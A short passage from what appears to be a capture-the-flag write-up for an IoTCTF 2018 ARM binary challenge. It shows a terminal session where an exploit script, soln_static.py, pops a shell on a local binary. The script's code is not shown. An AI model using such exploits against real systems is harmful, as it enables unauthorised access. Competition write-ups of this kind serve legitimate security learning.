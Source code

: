 The exploit worked fine. The entire script is in `soln_static.py`. After testing the Python script live on the local binary, we got a shell. If only we managed to solve it during the competition...
```
pi@raspberrypi:~/Desktop/Scr33n514y3r5/IoTCTF2018/Armv71/Static_1000 $ python soln_static.py
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './static': pid 3494
[*] Switching to interactive mode
$ whoami
pi
$ ls
README.md  debug_input    peda-session-static.txt  static
core       input    soln_static.py
$  
```
